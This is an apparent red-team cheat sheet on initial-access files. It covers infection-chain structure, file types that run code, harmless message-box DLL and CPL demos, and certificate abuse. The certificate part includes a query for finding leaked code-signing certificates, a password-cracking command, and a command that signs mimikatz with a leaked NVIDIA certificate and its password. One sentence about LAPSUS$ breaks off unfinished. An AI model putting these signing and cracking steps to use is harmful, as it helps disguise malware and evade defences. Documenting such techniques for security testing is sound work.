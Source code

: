 # Initial Access

> Initial Access Files in the context of a Red Team exercise refer to the set of files, scripts, executables, or documents used by the Red Team to initially infiltrate the target system or network. These files often contain malicious payloads or are designed to exploit specific vulnerabilities in order to establish a foothold in the target environment.

## Summary

* [Complex Chains](#complex-chains)
* [Payloads](#payloads)
    * [Binary Files](#binary-files)
    * [Code Execution Files](#code-execution-files)
    * [Embedded Files](#embedded-files)
* [Code Signing](#code-signing)


## Complex Chains

> DELIVERY(CONTAINER(TRIGGER + PAYLOAD + DECOY))

* **DELIVERY**: means to deliver a pack full of files
    * HTML Smuggling, SVG Smuggling, Attachments
* **CONTAINER**: archive bundling all infection dependencies
    * ISO/IMG, ZIP, WIM
* **TRIGGER**: some way to run the payload
    * LNK, CHM, ClickOnce applications
* **PAYLOAD**: the malware
    * Binary Files
    * Code Execution Files
    * Embedded Files
* **DECOY**: used to continue pretext narration after detonating malware
    * Typically open PDF files


## Payloads

### Binary Files

These files can be executed directly on the system without any third party.

* **.exe** file, executable file can be run with a click
* **.dll** file, execute with `rundll32 main.dll,DllMain`
    ```c
    #define WIN32_LEAN_AND_MEAN
    #include <windows.h>

    extern "C" __declspec(dllexport)
    DWORD WINAPI MessageBoxThread(LPVOID lpParam) {
    MessageBox(NULL, "Hello world!", "Hello World!", NULL);
    return 0;
    }

    extern "C" __declspec(dllexport)
    BOOL APIENTRY DllMain(HMODULE hModule,
                        DWORD ul_reason_for_call,
                        LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
        CreateThread(NULL, NULL, MessageBoxThread, NULL, NULL, NULL);
        break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
    }
    ```
* **.cpl** file, same as a .dll file with Cplapplet export
    ```c
    #include "stdafx.h"
    #include <Windows.h>

    extern "C" __declspec(dllexport) LONG Cplapplet(
        HWND hwndCpl,
        UINT msg,
        LPARAM lParam1,
        LPARAM lParam2
    )
    {
        MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
        return 1;
    }

    BOOL APIENTRY DllMain( HMODULE hModule,
                        DWORD  ul_reason_for_call,
                        LPVOID lpReserved
                        )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
        {
            Cplapplet(NULL, NULL, NULL, NULL);
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
    ```


### Code Execution Files

* Word with Macro (.doc, .docm)
* Excel library (.xll)
* Excel macro-enabled add-in file (.xlam)
* WSF files (.wsf)
* MSI installers (.msi)
* MSIX/APPX app package (.msix, .appx)
* ClickOnce (.application, .vsto)


### Embedded Files

* ICS Calendar Invites with Embedded Files


## Code Signing

Certificate can be **Expired**, **Revoked**, **Valid**.

Many certificates leaked on the Internet and got re-used by Threat Actor.
Some of them can be found on VirusTotal, with the query :  `content:{02 01 03 30}@4 AND NOT tag:peexe`

In 2022, LAPSUS$ claimed responsibility for a cyberattack on NVIDIA, a major graphics card and AI technology manufacturer. As part of this attack, LAPSUS$ allegedly stole proprietary data from NVIDIA and threatened to leak it. The leak contained


* Certificates can be password protected. Use [pfx2john.py](https://gist.github.com/tijme/86edd06c636ad06c306111fcec4125ba)
    ```ps1
    john --wordlist=/opt/wordlists/rockyou.txt --format=pfx pfx.hashes
    ```
* Sign a binary with a certificate.
    ```ps1
    osslsigncode sign -pkcs12 certs/nvidia-2014.pfx -in mimikatz.exe -out generated/signed-mimikatz.exe -pass nv1d1aRules
    ```
* The following files can be signed with a certificate
    * executables: .exe, .dll, .ocx, .xll, .wll
    * scripts: .vbs, .js, .ps1
    * installers: .msi, .msix, .appx, .msixbundle, .appxbundle
    * drivers: .sys
    * cabinets: .cab
    * ClickOnce: .application, .manifest, .vsto


## References

* [Top 10 Payloads: Highlighting Notable and Trending Techniques - delivr.to](https://blog.delivr.to/delivr-tos-top-10-payloads-highlighting-notable-and-trending-techniques-fb5e9fdd9356)
* [Executing Code as a Control Panel Item through an Exported Cplapplet Function - @spotheplanet](https://www.ired.team/offensive-security/code-execution/executing-code-in-control-panel-item-through-an-exported-cplapplet-function)
* [02. Desperate Infection Chains - Multi-Step Initial Access Strategies by Mariusz Banach](https://youtu.be/CwNPP_Xfrts)
* [Red Macros Factory - https://binary-offensive.com/](https://binary-offensive.com/initial-access-framework)